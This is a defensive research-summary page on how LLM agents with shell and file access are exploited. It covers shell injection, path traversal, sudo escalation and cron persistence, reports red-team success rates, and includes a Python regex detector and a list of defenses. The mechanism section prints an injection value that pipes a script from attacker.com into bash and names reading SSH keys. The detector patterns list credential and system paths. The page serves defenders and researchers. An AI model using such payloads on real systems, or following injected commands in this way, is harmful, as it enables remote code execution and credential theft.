

# OS-Level Agent Exploitation — Attacking LLM Agents with OS-Layer Access

**arXiv**: [arXiv:2411.02380](https://arxiv.org/abs/2411.02380) | **ATLAS**: AML.T0061 | **OWASP**: LLM06 | **Year**: 2024

## Core Finding

OS-level LLM agents (those with shell access, file system operations, and process control) represent the highest-impact exploitation target: successful attacks can achieve full system compromise. This paper identifies eight OS-level exploitation patterns unique to LLM agents, including "shell injection via task parameters," "path traversal via agent file operations," "privilege escalation through sudo commands," and "persistence via cron job insertion." In red-team exercises against three major OS-agent frameworks, 5 of 8 exploit classes succeed against at least one framework, with shell injection succeeding in 89% of cases where the agent has shell access.

## Threat Model

- **Target**: LLM agents with OS-level access: shell execution, file system read/write, process management
- **Attacker capability**: Inject adversarial inputs through any channel the agent processes (user task, environment variable, file content, network response)
- **Attack success rate**: Shell injection: 89%; path traversal: 67%; privilege escalation: 52%
- **Defender implication**: LLM agents with OS access are effectively root-level threat actors; their permissions must be minimized to the absolute minimum required by each specific task

## The Attack Mechanism

Shell injection is the most impactful: an adversarial input causes the agent to include attacker-controlled strings in shell command arguments. If the agent calls `subprocess.run(f"find {user_path} -name '*.txt'", shell=True)`, injecting `"; curl attacker.com/shell.sh | bash #` as the path achieves arbitrary command execution. Path traversal uses the same channel for file operations: an agent performing `open(user_provided_path, 'r')` can be directed to read `/etc/passwd` or `~/.ssh/id_rsa`. Cron job persistence injects a command into the agent's file operations that creates a persistent backdoor when the agent writes to a configuration directory.



## Implementation

```python
# os_agent_exploitation.py
# Detects OS-level exploitation patterns in LLM agent command generation
from dataclasses import dataclass, field
from typing import Optional, List, Dict
import re
import uuid


@dataclass
class OSAgentCommand:
    cmd_id: str
    command: str
    arguments: List[str]
    uses_shell: bool
    working_directory: str
    source_input: str  # what user/agent input led to this command


@dataclass
class OSExploitDetectionResult:
    cmd_id: str
    exploit_class: str  # "shell_injection", "path_traversal", "priv_escalation", "persistence"
    detected: bool
    evidence: str
    risk_level: str
    blocked: bool


class OSAgentExploitDetector:
    """
    [Paper citation: arXiv:2411.02380]
    Detects OS-level exploitation in LLM agent command generation.
    ATLAS: AML.T0061 | OWASP: LLM06
    """

    SHELL_INJECTION_PATTERNS = [
        r'[;&|`$]',            # Shell metacharacters in arguments
        r'\$\(.*?\)',          # Command substitution
        r'&&|\|\||;;',         # Command chaining
        r'>\s*/etc/|>\s*/bin/',  # Redirects to system directories
    ]

    PATH_TRAVERSAL_PATTERNS = [
        r'\.\./\.\./|\.\.\\\.\.\\',  # Directory traversal
        r'/etc/(?:passwd|shadow|sudoers|hosts)',
        r'~/.ssh/|~/.aws/|~/.config/',
        r'/proc/[0-9]+/',
    ]

    PRIVILEGE_ESCALATION_PATTERNS = [
        r'\bsudo\s+\w',
        r'\bsu\s+-',
        r'\bchmod\s+[0-7]*7[0-7]*\s+/',
        r'\bchown\s+root',
    ]

    PERSISTENCE_PATTERNS = [
        r'crontab\s+-e|/etc/crontab',
        r'/etc/init\.d/|/etc/rc\.',
        r'\.bashrc|\.bash_profile|\.profile',
        r'systemctl\s+enable',
    ]

    PATTERN_CLASSES = {
        "shell_injection": SHELL_INJECTION_PATTERNS,
        "path_traversal": PATH_TRAVERSAL_PATTERNS,
        "priv_escalation": PRIVILEGE_ESCALATION_PATTERNS,
        "persistence": PERSISTENCE_PATTERNS,
    }

    def check_command(self, cmd: OSAgentCommand) -> List[OSExploitDetectionResult]:
        """Check a command for all OS exploitation patterns."""
        results: List[OSExploitDetectionResult] = []
        full_cmd = cmd.command + " " + " ".join(cmd.arguments)

        for exploit_class, patterns in self.PATTERN_CLASSES.items():
            for pattern in patterns:
                match = re.search(pattern, full_cmd, re.IGNORECASE)
                if match:
                    risk = "critical" if exploit_class in ("shell_injection", "priv_escalation") else "high"
                    results.append(OSExploitDetectionResult(
                        cmd_id=cmd.cmd_id,
                        exploit_class=exploit_class,
                        detected=True,
                        evidence=match.group(0),
                        risk_level=risk,
                        blocked=True,  # recommendation: block on detection
                    ))
                    break  # one finding per class

        return results

    def to_finding(self, result: OSExploitDetectionResult):
        from datasets.schema import ScanFinding
        return ScanFinding(
            id=str(uuid.uuid4()),
            atlas_technique="AML.T0061",
            atlas_tactic="Execution",
            owasp_category="LLM06",
            owasp_label="Excessive Agency",
            severity="CRITICAL" if result.risk_level == "critical" else "HIGH",
            finding=f"OS exploit [{result.exploit_class}] in command {result.cmd_id}: '{result.evidence}'",
            payload_used=result.evidence,
            evidence=f"Exploit class: {result.exploit_class}; blocked: {result.blocked}",
            remediation="Never use shell=True; validate all file paths; prohibit sudo in agent commands; audit cron/init writes",
            confidence=0.92,
        )
```

## Defenses

1. **No shell=True**: Prohibit `subprocess.run(..., shell=True)` in all agent code; use argument lists with explicit escaping instead; shell metacharacters in arguments cannot be exploited without shell=True (AML.M0047).
2. **Path validation and allowlisting**: All file paths provided to or generated by the agent must be validated against an allowlist of permitted directories; reject any path containing `../`, absolute paths outside the allowed set, or system directories.
3. **Sudo prohibition**: Remove sudo from all agent tool environments; agents must never have sudo access; privilege escalation commands must be blocked at the OS level.
4. **File write monitoring**: Monitor all agent file write operations; alert on writes to cron directories, init.d, shell profile files, or any system configuration path (AML.M0036).
5. **Containerized agent execution**: Run all OS-level agents in containers with minimal privileges, read-only system mounts, and seccomp profiles that block dangerous syscalls; container escape is a containment failure, not a design assumption.

## References

- [OS-Level Agent Exploitation: Attacking LLM Agents with Shell and File System Access (arXiv:2411.02380)](https://arxiv.org/abs/2411.02380)
- [ATLAS Technique: AML.T0061 — LLM Tool Abuse](https://atlas.mitre.org/techniques/AML.T0061)
- [OWASP LLM06: Excessive Agency](https://owasp.org/www-project-top-10-for-large-language-model-applications/)
